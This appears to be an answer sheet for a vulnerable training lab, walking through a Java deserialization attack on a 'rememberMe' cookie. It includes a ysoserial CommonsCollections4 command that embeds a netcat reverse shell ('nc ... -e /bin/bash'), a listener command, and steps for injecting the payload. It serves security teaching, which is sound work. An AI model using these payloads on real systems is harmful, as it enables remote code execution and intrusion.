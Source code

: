 # Java Deserialization Answersheet

**Step 1:** Click on "Java Website: 16661" link.<br />
<kbd> <img src="1.png" /> </kbd>
<br /> <br />

**Step 2:** Provide the following credential and tick the "Remember Me" option and click on Submit button.<br />
```
Username: admin
Password: password
```
Note: The registration functionality is disabled for this application.<br />
<kbd> <img src="2.png" /> </kbd>
<br /> <br />

**Step 3:** Capture the HTTP request and send this request to repeater "Right Click -> Send to Repeater".<br />
<kbd> <img src="3.png" /> </kbd>
<br /> <br />

**Step 4:** Click on "send" button and observe that the server responds with "rememberMe" cookie which has Java serialized magic string starting with "rO0".<br />
<kbd> <img src="4.png" /> </kbd>
<br /> <br />

**Step 5:** Observe the serialized value of it after decoding it with Base64.<br />
<kbd> <img src="5.png" /> </kbd>
<br /> <br />

**Step 6:** Forward the request captured in **Step 3** and click on "Login" button.<br />
<kbd> <img src="6.png" /> </kbd>
<br /> <br />

**Step 7:** Download the YSoSerial utility from following location, and use the following command to check the payloads available.<br />
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
```
java -jar ysoserial-master-SNAPSHOT.jar
```
<kbd> <img src="7.png" /> </kbd>
<br /> <br />

**Step 8:** Capture the IP address and use that to generate the reverse shell payload using following command and capture the generated payload.<br />
```
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nc 192.168.29.88 4444 -e /bin/bash" | base64 -w 0
```
<kbd> <img src="8.png" /> </kbd>
<br /> <br />

**Step 9:** Start the listener using following command.<br />
```
nc -nlvp 4444
```
<kbd> <img src="9.png" /> </kbd>
<br /> <br />

**Step 10:** Replace the payload generated in **Step 8** in the "RememberMe" parameter and click on "send" button to send request to the server.<br />
<kbd> <img src="10.png" /> </kbd>
<br /> <br />

**Step 11:** A connection will be received on reverse shell. Extract the system information using whoami, uname -a command.<br />
<kbd> <img src="11.png" /> </kbd>
<br /> <br />